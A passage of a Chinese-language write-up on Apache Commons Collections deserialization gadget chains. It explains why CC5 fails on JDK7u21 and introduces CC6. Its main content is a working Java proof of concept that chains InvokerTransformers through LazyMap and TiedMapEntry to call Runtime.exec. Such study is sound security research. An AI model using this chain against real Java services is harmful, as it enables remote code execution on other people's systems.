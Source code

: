 ```txt
                                    Runtime.exec()
```

JDK7u21 下是不能利用的，究其原因看一下 BadAttributeValueExpException 类，没有重写的 readObject 方法

![](Commons-Collections-反序列化利用链分析/image-20210211205741258.png)



# CommonsCollections6

## Basics

**CC6 特点：适用范围广，受 JDK 版本影响最小**

CC6 其实跟 CC5 是在 `TiedMapEntry#getValue` 延伸出来并行的两条链

回顾我们通过 `TiedMapEntry#getValue` 而进行 RCE 的 demo

**Level-0 payload**

```java
public class CommandDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException,
            IllegalAccessException, InvocationTargetException, InstantiationException {
        ChainedTransformer chainDemo = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        new Object[]{ ("/Applications/Calculator.app/Contents/MacOS/Calculator")})});
        Map innerMap = new HashMap();
        LazyMap mapDemo = (LazyMap) LazyMap.decorate(innerMap, chainDemo);
        TiedMapEntry rceDemo = new TiedMapEntry(mapDemo, "random");
        rceDemo.getValue();
    }
```